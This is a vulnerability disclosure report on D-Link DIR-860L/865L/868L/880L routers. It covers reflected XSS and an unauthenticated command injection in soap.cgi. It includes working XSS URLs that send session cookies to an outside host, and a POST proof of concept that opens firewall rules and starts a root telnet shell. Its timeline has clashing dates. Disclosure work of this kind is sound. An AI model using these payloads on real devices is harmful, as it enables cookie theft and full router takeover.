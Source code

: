 ## 0x00 Product Description
Dlink is a multinational networking equipment manufacturing corporation.

The Dlink 860L/865L/868L/880L are wireless "Cloud" Router.

The vulnerabilities details are as follows:

Vendor: D-Link

Devices: DIR-880 REVA / DIR-868 REVA / DIR-865 / DIR-860 REVA

Firmware:

DIR-880L_REVA_FIRMWARE_PATCH_1.08B04

DIR868LA1_FW112b04

DIR-865L_REVA_FIRMWARE_PATCH_1.08.B01

DIR860LA1_FW110b04

## 0x01 Vulnerabilities Summary
The Dlink 860L/865L/868L/880L is a router overall badly designed with a lot of vulnerabilities.

My research in analyzing the security of Dlink routers starts from a recent security contest organized by a security company.

## 0x02 The summary of the vulnerabilities is:
1. WAN && LAN - revA/B - XSS - CVE-2018-6527, CVE-2018-6528, CVE-2018-6529
2. LAN - revA/B - OS command injection - CVE-2018-6530

## 0x03 Details - WAN && LAN - revA/B - XSS

After analyzing PHP files inside /htdocs/webinc, I found several trivial XSS vulnerabilities.

An attacker can use the XSS to target an authenticated user in order to steal the authentication cookies.

1. xss inside /htdocs/webinc/body/bsc_sms_send.php
```php
[…]
                <span class="value">
                        <input id="receiver" type="text" size="50" maxlength="15" value="<? echo $_GET["receiver"]; ?>"/>
                </span>
[…]
```
An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/bsc_sms_send.php?receiver="><script>window.open('http://9.9.9.9:9999/cookie.asp?msg='+document.cookie)</script><"

2. xss inside /htdocs/ webinc/js/adv_parent_ctrl_map.php
```php
[…]
                var msgArray =
                [
                        '<?echo i18n("You have successfully configured your router to use OpenDNS Parental Control.");?>',
                        '<?echo i18n("Do you want to test the function?");?>',
                        '<p><input type="button" value="<?echo i18n('Test');?>" onclick="window.open(\'http://www.opendns.com/device/welcome/?device_id=<? echo $_GET["deviceid"];?>\')" /><input type="button" value="<?echo i18n('Return');?>" onClick="self.location.href=\'adv_parent_ctrl.php\';" /></p>'
                ];
                BODY.ShowMessage('<?echo i18n("OpenDNS PARENTAL CONTROLS");?>', msgArray);
[…]
```

An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/adv_parent_ctrl_map.php?deviceid=whatever\');window.open(\'http://9.9.9.9:9999/cookie.asp?msg=\'+document.cookie

3. xss inside /htdocs/ webinc/js/bsc_sms_inbox.php
```php
[…]
        InitValue: function(xml)
        {
                var get_Treturn = '<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';		
         … 
        }
[…]
```
An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/bsc_sms_inbox.php?Treturn=0';window.open('http://9.9.9.9:9999/cookie.asp?msg='+document.cookie);get_Treturn='1

## 0x04 Details - LAN - revA/B - Command injection in SOAP controlType url interface

The vulnerability occurs in /htdocs/cgibin which is executed by the web server for, just handles almost http requests from WAN and LAN, and my research in analyzing SOAP interface started from a security analysis report regarding UPNP protocol, then I reviewed the SOAP interface, which is handled by the soapcgi_main function in cgibin, seems to have been mostly overlooked.

It should be noted that you could insert and execute malicious commands without privilege, meanwhile the injection point is the service field which is passed to soap.cgi to indicate control type, this exploitation also works even if invalid SOAPAction and whatever XML stream in a request.

Here’s the code in C to show some details about this issue:
```c
/* Grab a pointer to the request url */
requri = getenv("REQUEST_URI");
/* goto failure if the urquri does not start with "?service=" */
if((query = strchr(requri, "?")) == NULL or strncmp(query, "?service=", strlen("?service=")))
{
    goto failure_condition;
}
/* Point the control type field pointer 9 bytes beyond the requri */ 
controlType = query + strlen("?service=");

... ...

/* Create/open a shell script using the specified control type string */
sprintf(filename, "%s/%s_%d.sh", "/var/run", controlType, getpid());
fn = fopen(filename "a+");
/* Write self-deleting command into the srcipt and execute it by "sh -c"*/
if(fn)
{
    fprintf(fn, "rm -f %s/%s_%d.sh", "/var/run", controlType, getpid());
    fclose(fn);
    sprintf(filename, "%s/%s_%d.sh", "/var/run", controlType, getpid());
    system(filename);
}
```
Proof of concept:
```
POST /soap.cgi?service=whatever-control;iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;iptables -t nat -P PREROUTING ACCEPT;iptables -t nat -P OUTPUT ACCEPT;iptables -t nat -P POSTROUTING ACCEPT;telnetd -p 9999;whatever-invalid-shell HTTP/1.1
Host: 192.168.100.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

whatever-content

Here, we can easily build a soap http request and embed malicious command that spawns a telnet server on WAN that provides an unauthenticated root shell into it, and then login into router using telnet:
$ telnet 192.168.0.1 9999
Trying 192.168.0.1...
Connected to 192.168.0.1.
Escape character is '^]'.
```
## 0x05 Report Timeline

Dec 8, 2017: Vulnerabilities found.

Jul 18, 2018: Reported to security@dlink.com.

Jul 18, 2018: The vendor followed up and made a schedule to fix it.

Feb 1, 2018: Reported those security issues to MITRE.

Feb 1, 2018: MITRE provides CVE-2018-6527, CVE-2018-6528, CVE-2018-6529, CVE-2018-6530.

Mar 1, 2018: The vendor release security announcement for customers.  

Mar 2, 2018: I decide to make a public disclosure.

## 0x06 Credits

These vulnerabilities were found by Kaixiang Zhang.

## 0x07 References

![ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-880L/REVA/DIR-880L_REVA_FIRMWARE_PATCH_NOTES_1.08B06_EN_WW.pdf](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-880L/REVA/DIR-880L_REVA_FIRMWARE_PATCH_NOTES_1.08B06_EN_WW.pdf)

![ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-865L/REVA/DIR-865L_REVA_FIRMWARE_PATCH_NOTES_1.10B01_EN_WW.pdf](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-865L/REVA/DIR-865L_REVA_FIRMWARE_PATCH_NOTES_1.10B01_EN_WW.pdf)

![ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-868L/REVA/DIR-868L_REVA_FIRMWARE_PATCH_NOTES_1.20B01_EN_WW.pdf](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-868L/REVA/DIR-868L_REVA_FIRMWARE_PATCH_NOTES_1.20B01_EN_WW.pdf)

![ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-860L/REVA/DIR-860L_REVA_FIRMWARE_PATCH_NOTES_1.11B01_EN_WW.pdf](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-860L/REVA/DIR-860L_REVA_FIRMWARE_PATCH_NOTES_1.11B01_EN_WW.pdf)
